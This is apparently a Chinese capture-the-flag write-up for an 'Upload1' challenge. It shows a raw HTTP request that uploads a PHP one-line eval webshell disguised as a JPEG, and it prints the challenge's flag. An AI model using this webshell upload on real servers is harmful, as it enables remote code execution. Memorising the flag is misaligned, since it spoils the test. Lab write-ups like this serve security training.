 # Upload1

> 文件上传,直接修改文件后缀,上传一句话木马

## 思路分析

> 文件上传,直接修改文件后缀,上传一句话木马,蚁剑连接翻找flag文件

## payload

```
POST /index.php HTTP/1.1
Host: 61.147.171.105:61886
Content-Length: 207
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://61.147.171.105:61886
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary67OQEMWOgNmWGDxW
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://61.147.171.105:61886/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundary67OQEMWOgNmWGDxW
Content-Disposition: form-data; name="upfile"; filename="1.php"
Content-Type: image/jpeg

<?php @eval($_POST[a]); ?>
------WebKitFormBoundary67OQEMWOgNmWGDxW--
```

## flag

> cyberpeace{daf60bdf62b41b5a67e338d627e12624}
